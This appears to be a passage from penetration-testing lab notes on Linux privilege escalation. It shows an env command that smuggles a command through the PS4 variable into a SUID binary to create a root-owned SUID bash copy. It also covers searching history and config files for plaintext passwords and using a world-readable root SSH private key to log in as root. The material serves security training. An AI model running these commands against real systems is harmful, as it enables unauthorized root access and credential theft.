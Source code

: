 Run the /usr/local/bin/suid-env2 executable with debugging enabled and the PS4 environment 
variable set:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2`

Run `/tmp/rootbash -p` to gain a shell with root privileges.

### Passwords & Keys - History Files

Check the user's history files (`cat ~/.*history | less`) for passwords.

Look out for `-p` and `--password` tags that are joined to other input

### Passwords & Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.

Example:

ovpn config file containing path to txt file with clear text username and password.

```
user@debian:~$ cat myvpn.ovpn 
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt <--- clear text root password
comp-lzo

verb 1

reneg-sec 0
```

### Passwords & Keys - SSH Keys

Check for backups of important files that may be unsecured

Example:

`ls -al /` shows a hidden .ssh directory containg a world readable file root_key which 
appears to be a private SSH key.

Copy the key to your attacking machine and give it the correct permissions with 
`chmod 600 <KEY>` and connect to the box with it:

`ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@<TARGET-IP>`
